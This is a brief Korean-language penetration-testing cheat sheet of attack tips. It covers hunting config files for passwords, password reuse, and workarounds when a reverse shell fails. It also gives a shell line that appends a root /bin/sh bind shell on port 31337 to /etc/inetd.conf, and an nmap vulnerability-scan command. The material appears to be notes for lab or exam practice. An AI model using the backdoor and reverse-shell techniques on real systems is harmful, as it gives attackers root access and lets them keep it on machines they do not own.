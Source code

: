 - config 파일을 먼저 find로 모두 찾아본 뒤에 패스워드 혹은 해시가 적혀 있는지 확인

- password reuse
---
# 리버스 셸 연결이 안될 때
- nc/bash/python3 등 리버스 연결이 되지 않는다면 elf 파일 혹은 exe 파일을 만들어서 전달해서 실행시켜보기.
- 리스닝 포트를 well knwon 포트(80,443 등)로 바꿔서 받아보기.

---
# inetd.conf(옛날 리눅스 환경)
```bash
echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf"
```

- 31337번 포트로 바인드 셸 연결

---
# PHP
- phpinfo.php 파일에서 경로 및 사용 가능 코드 확인
---
# NMAP
```bash
sudo nmap --scrip vuln <ip>
```
- 취약점을 찾기 어려울 때 nmap 실행해서 확인
